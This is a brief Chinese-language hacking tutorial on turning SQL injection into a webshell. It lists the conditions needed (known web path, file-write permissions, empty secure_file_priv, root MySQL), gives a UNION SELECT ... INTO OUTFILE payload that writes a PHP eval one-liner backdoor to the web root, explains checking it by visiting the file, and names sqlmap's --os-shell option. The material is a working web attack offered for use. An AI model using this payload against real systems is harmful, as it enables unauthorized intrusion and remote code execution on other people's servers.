


# SQL注入木马Getshell

## 一句话木马

### sql注入一句话木马

**前提条件**

- 知道目标站点真实物理路径
- 目标nginx、php-fpm、MySQL具有写入文件的权限

- 目标MySQL配置文件开启secure_file_priv=""
- MySQL最好是root用户

**注入payload**

```shell
' union select '<?php @eval($_POST["jaden"] ?>',1 into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\mm.php"#
```

**验证是否成功**

访问目标网址下的`mm.php`


## Getshell

**使用工具直接连接**




**Getshell**




## SqlmapGetshell

### 原理

- 上传一个木马文件的上传模块代码文件到服务端
- 通过上传模块上传文件
- 远程连接木马

```shell
--os-shell  #Getshell
```

